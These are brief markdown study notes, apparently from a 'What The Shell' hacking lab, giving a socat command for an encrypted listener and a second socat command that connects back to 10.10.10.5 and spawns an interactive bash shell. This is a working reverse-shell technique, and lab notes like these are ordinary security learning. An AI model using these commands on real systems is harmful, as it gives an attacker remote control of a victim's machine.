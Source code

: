 ```yaml
---
Tags: WhatTheShell
date: 07-09-2022
---
```


[Hacking](./Hacking.md)

---

Task 7 :
```
socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0

this is to connect back to the listener
socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane

```

